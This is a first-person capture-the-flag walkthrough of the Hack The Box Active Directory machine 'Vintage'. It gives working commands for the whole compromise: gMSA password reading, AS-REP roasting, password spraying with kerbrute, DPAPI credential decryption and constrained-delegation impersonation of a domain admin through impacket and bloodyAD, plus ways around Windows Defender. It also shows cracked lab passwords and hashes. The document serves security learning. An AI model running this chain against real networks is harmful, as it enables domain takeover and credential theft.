

Vintage
Vintage was a challenging Windows Active Directory box that demonstrated the importance of thorough enumeration and the exploitation of various AD weaknesses and permission relationships. Beginning with initial credentials for P.Rosa, I discovered NTLM authentication was disabled, requiring the use of Kerberos. After configuring my environment for Kerberos authentication, I used Bloodhound to map the domain structure and identify potential attack paths.
The key vulnerabilities centered around a pre-Windows 2000 computer account (FS01), which used a predictable password scheme. By compromising this account, I gained access to read GMSA01's password, allowing me to add the GMSA account to the ServiceManagers group. This granted me control over service accounts, particularly svc_sql, which I was able to enable and crack its password.
Password reuse turned out to be a critical weakness, as password spraying revealed C.Neri used the same credentials. After gaining access as C.Neri, I discovered DPAPI-encrypted data that contained C.Neri_adm's password. Using C.Neri_adm's GenericAll permissions over the delegated admins group, I added svc_sql to this group and set up constrained delegation.
The final step involved setting an SPN on svc_sql and requesting a service ticket that allowed me to impersonate L.BIANCHI_adm, who had administrative privileges. Due to Windows Defender blocking traditional tools, I had to pivot to using wmiexec to finally gain administrative access to the domain controller.
This box illustrated how complex AD permission relationships, predictable password schemes, and credential reuse can be chained together to achieve complete domain compromise, highlighting the importance of proper AD security configuration and monitoring.
User flag
Nmap scan reveals the domain name, as well as a few key services. This is an Active Directory box.
Getting a kerberos ticket as P.Rosa
I tried to enumerate the domain with the provided credentials, however, it seems like NTLM authentication is disabled.
I'll have to use a different method. Having these credentials will come in handy, as I will be requesting a kerberos ticket to utilize kerberos auth.
In order to make that possible, I will have to modify my krb5.conf file.
[libdefaults]
default_realm = VINTAGE.HTB
[realms]
VINTAGE.HTB = {
kdc = 10.10.11.45
admin_server = 10.10.11.45
}
# Add these changes to the krb5.conf file
Now I will be able to request a ticket for P.Rosa.
Bloodhound enumeration
I will use bloodhound-python to gather data about the domain.

I've noticed that there are actually two computers in the domain, DC01 and FS01. I'll check both during enumeration.
L Bianchi is an administrator who can perform DCsync. Not very useful in this case as getting to L Bianchi will already let me root the box.
The FS workstation is a very old computer. This could be leveraged to take control of its machine account.
The computer accounts can read the GMSA password of GMSA01.
GMSA01 has GenericWrite over ServiceManagers, and can add itself to the group
The ServiceManagers group has GenericAll over the 3 SVC accounts, which will allow me to peform targeted kerberoast attacks against them.
C.Neri_ADM has GenericAll over the delegated admins group.
If I can get to that account, I should be able to impersonate other users on the domain
And that is all I've got from the bloodhound output. There is no clear way for domain takeover yet, but It might become visible as I go forward.
Taking over the pre-2000 windows workstation account
During my search about the outdated workstations, I stumbled upon a post from the hacker recipes.
https://www.thehacker.recipes/ad/movement/builtins/pre-windows-2000-computers
When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing $). When it isn't, the password is randomly generated.
This basically confirms the password for that computer account! I will be able to request a kerberos ticket to progress further.
Reading the GMSA password of GMSA01
To read GMSA passwords, I'd usually use netexec with the ldap module.
However, it seems like that won't work in this situation. I will use bloodyAD instead.
bloodyAD -k -d vintage.htb -u 'FS01' --host dc01.vintage.htb --dc-ip 10.10.11.45 get object GMSA01$ -attr msDS-ManagedPassword
Attacking the SVC accounts
I won't be able to get a ticket the same way as before, as I don't have the password of GMSA01. I will use impacket-getTGT instead, because it does accept the raw hashes.
impacket-getTGT -hashes 'aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178' -dc-ip 10.10.11.45 vintage.htb/GMSA01$
I'll keep using bloodyAD, this time to add the GMSA account to the service managers group.
bloodyAD -d vintage.htb -u 'GMSA01$' --host 'dc01.vintage.htb' --dc-ip 10.10.11.45 -k add groupMember SERVICEMANAGERS GMSA01$
I've tried the targeted kerberoast approach, but it just wouldn't work at all. There is one more way I can think of that could be succesful here.
I'll leverage the NO-PREAUTH flag to set up the svc accounts for an attack with impacket's GetNPUsers.
impacket-GetNPUsers -request -outputfile out.txt -usersfile usersfile -no-pass -k -dc-ip 10.10.11.45 -dc-host dc01.vintage.htb vintage.htb/P.Rosa
I've got the two hashes, but they would not crack with rockyou.txt. I must've overlooked something during my earlier bloodhound recon.
The svc_sql account is disabled. I should not have missed that, but oh well, a lesson for the future.
I can enable the account just like I set the no preauth flags with bloodyAD earlier.
bloodyAD -d vintage.htb -u 'P.Rosa' --host 'dc01.vintage.htb' --dc-ip 10.10.11.45 -k remove uac -f ACCOUNTDISABLE svc_sql
This time there are 3 hashes, svc_sql included. Since the hashes for ldap and ark accounts didn't crack earlier, I will try cracking only the sql account hash.
svc_sql | Zer0The0ne
Password spraying
There's not much I can do with this svc account right now. However, I did get a new password, which I will use in a password spray.
First, I'll need a list of valid users. To do that, a simple ldapsearch query will suffice. Additionally, I will refine the output so that only the usernames will remain.
ldapsearch -x -H ldap://10.10.11.45 -D "svc_sql@vintage.htb" -w "Zer0the0ne" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName | grep sAMAccountName | awk -F ' ' '{ print $2 }' > userlist.txt
My go-to way of password spraying is, once again, using netexec/crackmapexec with a file instead of the username. I can't use those here, but there is a different way to do the same thing.
https://github.com/ropnop/kerbrute
I will use the passwordspray command of kerbrute to check whether any of the users does have an identical password.
C.Neri has the same password. Since I don't have any more leads after this, I'll try to remote into the machine as them.
First, I'll request a ticket with kinit. Then I'll use evil-winrm to gain a shell on the box
Root flag
I tried to gain a meterpreter shell, because my evil-winrm session was super unstable. However:
Program 'shell.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted software
Defender is running on the box, which means that many useful programs/scripts will be caught unless obfuscated. I could do that, but I could also do some manual checking first to see if there's an immediate point of interest within my reach.
Discovering the DPAPI-encrypted data
I started manually poking around user directories and microsoft folders, following my obsidian notes and going from one 'valuable' folder to another.
Eventually, I found something that hinted that DPAPI was at play in this box.
DPAPI (Data Protection API) is used by Windows to securely encrypt and store data (often as encrypted blobs). It ties the encryption keys to the user's account, allowing only that user to decrypt the data.
https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets
This is a credential blob encrypted via DPAPI. I could tell because this is a location where DPAPI stores its encrypted data.
Since I am logged in as C.Neri, I should also be able to grab their masterkey.
Decrypting the DPAPI blob
First, I'll download the encrypted blob. There is a single problem with that.
It seems like evil-winrm cannot download hidden files. This can be fixed by simply removing the hidden attribute from the blob.
I will make a copy of the blob in C:\programdata.
Copy-Item -Path C4BB96844A5C9DD45D5B6A9859252BA6 -Destination C:\programdata
And I'll remove the attribute from the copy.
attrib -H -S C:\ProgramData\C4BB96844A5C9DD45D5B6A9859252BA6

Now it can be downloaded without issues.
Next, I need the masterkey of C.Neri to decrypt the blob. The directory for DPAPI masterkeys is:
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
Running whoami /all shows the SID, so the only thing Im missing right now is the GUID.
However, knowing the GUID is not really all that necessary here. I can just grab both of the files and test each of them against the blob locally.
Like before, I'll copy both of the files to C:\programdata, then I'll remove their hidden attribute to download them onto my box.
There are two ways of decrypting the blobs that I am familiar with. Locally with impacket-dpapi, or directly on the machine using mimikatz.
I can't use mimikatz because of defender, so I'll have to use impacket here.
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
impacket-dpapi masterkey -file 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847 -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Now I have two decrypted keys. I will try both of them against the blob, using impacket-dpapi for this as well.
impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Using the incorrect key results in an ERROR: Padding is incorrect. error, and using the correct one reveals a password.
With a new password discovered, it is a good idea to try password spraying once again.
C.Neri_adm | Uncr4ck4bl3P4ssW0rd0312
Impersonating L_BIANCHI_ADM via delegation
I tried to remote into the machine as c.neri_adm, but doing that is not possible.
Still, I can leverage their privileges and rights over the delegated admins group.
I can add my controlled users to the group thanks to the GenericAll permissions. C.Neri_adm cannot perform delegation at all.
It is most likely because they don't have an SPN set. To get past this, I need to controll an account fully so that I can modify its SPN value.
With C.Neri I have full control over the 3 service accounts. This will allow me to execute my plan and go forward with the delegation.
First I'll request a TGT for C.Neri_adm via kinit.
kinit C.Neri_adm
Then I will add an svc account to the delegated admins group.
bloodyAD -d vintage.htb -u C.Neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k --host dc01.vintage.htb --dc-ip 10.10.11.45 add groupMember delegatedadmins svc_sql
I picked the sql account, because it is the only svc account with a known password.
Now I need to switch to c.neri. I'll request a ticket for them like before.
kinit C.Neri
I'll add an SPN to the svc_sql account.
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" -u C.Neri -p Zer0the0ne --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName -v "cifs/sql"
Then I will request a TGT for the svc_sql account.
impacket-getTGT -dc-ip 10.10.11.45 vintage.htb/svc_sql:Zer0the0ne
If the command fails, it might be necessary to enable the account again via modifying the UAC flags..
Lastly, I'll request a service ticket for CIFS(Common Internet File System) on the DC as L.BIANCHI_adm.
impacket-getST -spn cifs/dc01.vintage.htb -impersonate L.BIANCHI_adm -k -dc-ip 10.10.11.45 vintage.htb/svc_sql:Zer0the0ne

This ticket with a very long name will allow me to get administrative access to the DC as L.BIANCHI_adm.
export KRB5CCNAME=L.BIANCHI_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
However, evil-winrm will not work with it due to its name. Psexec will not work here either because it drops a file on the box, which will be detected by Defender.
Luckily, there is also wmiexec which should work in this situation.
impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb
Rooted!